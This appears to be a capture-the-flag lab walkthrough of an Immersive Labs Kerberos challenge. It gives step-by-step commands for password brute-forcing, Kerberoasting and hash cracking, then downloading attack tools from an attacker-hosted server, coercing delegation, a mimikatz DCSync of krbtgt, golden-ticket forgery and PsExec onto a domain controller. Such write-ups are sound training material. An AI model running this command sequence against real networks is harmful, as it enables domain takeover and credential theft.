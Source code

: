 ```yaml
---
date: 2025-04-24
categories: [CTF, ImmersiveLabs]
title: "IML - Kerberos: Ep.13 – Demonstrate your skills"
tags: ['hashcat', 'john the ripper', 'kerberos', 'mimikatz', 'powershell', 'privilege escalation', 'python', 'rce', 'windows']

description: "Kerberos Ep.13 – Demonstrate your skills - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Kerberos: Ep.13 – Demonstrate your skills


![image1](../resources/eb9a0af945024067bf3743669956becf.png)

# ![image2](../resources/5fbcc1d087bc4a43ae0da894139f234d.png)

```bash
./kerbrute bruteuser -d krbtown.local --dc 10.102.11.232 /usr/share/wordlists/krbpasswords.txt s.villanelle

```

![image3](../resources/82229e4cd1ab46b191c60f29b82143d4.png)

- Got valid credentials


![image4](../resources/0852f5bdc6fb4d92bfd3eee703dc469b.png)

- Use credentials to rdp
```bash
xfreerdp /v:10.102.30.15 /u:s.villanelle /d:krbtown.local +clipboard +drives /drive:root,/home/kali /dynamic-resolution

```
- Token: 8dae10


![image5](../resources/ed950f2a96b9467a920841bf851e36d2.png)

- Upload Rubeus to workstation-01

```bash
python3 -m http.server 8080

```

![image6](../resources/903a4b8eef6f40eeaa2eb24239e9302e.png)

```bash
curl http://10.102.30.234:8080/Rubeus.exe > Rubeus.exe

```

![image7](../resources/8acfa91590514a4c8a3c438b7b075882.png)

- Open admin PS - Run rubeus.exe
.\Rubeus.exe kerberoast /user:mssql_svc /outfile:hashes.kerberoast


![image8](../resources/9a3dc2dcdfc541a2a87082f889a2c5d7.png)


![image9](../resources/0da917ac1c294f5bbdb1e9fc2379ee82.png)

- Copy and save hash to Kali (hash.txt)

- Use john (no hashcat):
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=krb5tgs

- Password: **blink182!**

- RDP to wks-02:
```bash
xfreerdp /v:10.102.52.164 /u:mssql_svc /p:blink182! /d:krbtown.local +clipboard +drives /drive:root,/home/kali /dynamic-resolution

```

![image10](../resources/378f60dbf30941bc8d466ee1fdfcad9c.png)

- Set up python server in Tools:
```bash
python -m http.server

```
- Use the native Powershell command to curl (this doesn't corrupt the file):
```bash
(new-object System.Net.WebClient).DownloadFile('http://10.102.149.56:8080/PowerView-Dev.ps1','PowerView-Dev.ps1')

```
- Enumerating for unconstrained delegation:
```bash
Get-DomainComputer -Unconstrained -Properties dnshostname

```

![image11](../resources/92776ade960f4f968a9e5e71889c5e69.png)

- We are already on wks-02

- Set up python server and download Rubeus, MS-RPRN, PsExec64 and mimikatz:
```bash
(new-object System.Net.WebClient).DownloadFile('http://10.102.149.56:8080/Rubeus.exe','Rubeus.exe')

(new-object System.Net.WebClient).DownloadFile('http://10.102.149.56:8080/MS-RPRN.exe','C:\Users\mssql_svc\MS-RPRN.exe')

(new-object System.Net.WebClient).DownloadFile('http://10.102.149.56:8080/PsExec64.exe','C:\Users\mssql_svc\PsExec64.exe')

(new-object System.Net.WebClient).DownloadFile('http://10.102.149.56:8080/mimikatz.exe','C:\Users\mssql_svc\mimikatz.exe')

```
- Open an elevated command prompt and monitor for TGT **(Open in CMD, not PS)**:
```bash
.\Rubeus.exe monitor /interval:1 /nowrap

```
- To force a connection to our compromised host Workstation-02, you can use the MS-RPRN tool by running it on an elevated PowerShell prompt:
```bash
.\MS-RPRN.exe \\DC01.krbtown.local \\Workstation-02.krbtown.local

```

![image12](../resources/fad254bf7daa4721b32200b4b2781661.png)

If no wrap wasn't used:
- Copy the Base64 ticket and paste into Kali (ticket.txt):
**Remove empty lines and white spaces from the Base64 ticket before passing it through Rubeus:**

```python
python3 -c 'f=open("ticket.txt").read();import re;print(re.sub(r"\[\n\t\s\]\*", "", f))'
```
- Copy the output and paste into the command (on Windows):
```bash
[IO.File]::WriteAllBytes("C:\Users\mssql_svc\DC.kirbi", [Convert]::FromBase64String("Base64 Ticket"))

```
(Change the directory to where Rubeus is)

Convert from Base64 and saves it in **DC.kirbi**:

- Load the ticket into memory:
```bash
.\Rubeus.exe ptt /ticket:DC.kirbi

```
or

```bash
.\Rubeus.exe ptt /ticket:\<base64\>

```
or with

```bash
.\mimikatz.exe

kerberos::ptt DC.kirbi

```

![image13](../resources/0fddd00966e6450cb4af1dd908a16818.png)

- Check with klist

![image14](../resources/141340df50624dac9a60844f53a91e3c.png)

- Run:
```bash
.\mimikatz.exe
lsadump::dcsync /domain:krbtown.local /user:krbtgt

```

![image15](../resources/22f73d9f3f8041a6be366e90a1d1ce23.png)

- Copy the NTLM hash and the SID:


![image16](../resources/792d1d115c864d9197ef14e2899a13db.png)


![image17](../resources/c01c6683d0ab4946a1e2ca140849eb58.png)

**\*\* The SID is the highlighted text above - Not including the last part (-502)  
That part is specific to that user account**

- Run mimikatz
- Create Kerberos Golden ticket with the information gathered above:
```bash
kerberos::golden /domain:krbtown.local /sid:S-1-5-21-839606329-3182976252-758991142 /krbtgt:9a60db81a985dd1b22b3d34fa598fe19 /user:Administrator

```
The **/user:** is a username we make up ourselves.

This can be anything but Administrator is less conspicuous


![image18](../resources/0fc9917b07324daf9090b6ffdd1a0071.png)


![image19](../resources/7ec819c264434e379b257c9b860180fa.png)

- Run .\mimikatz.exe again with the following command:
```bash
kerberos::ptt ticket.kirbi

```

![image20](../resources/291e0785ed02449c8b925c0a54227448.png)

- Check with klist

![image21](../resources/fe5cbc4a600244ff896d897f651af9e8.png)

- Now that we have a Golden Ticket in memory (TGT) for administrator on the DC, you can use PsExec to log in to the DC:

```bash
.\PsExec64.exe \\dc01.krbtown.local cmd

```
**\*\*Need to use the DNS name to force the use of Kerberos**


![image22](../resources/cd77966db48f440abd1687b5fd9a8c6c.png)
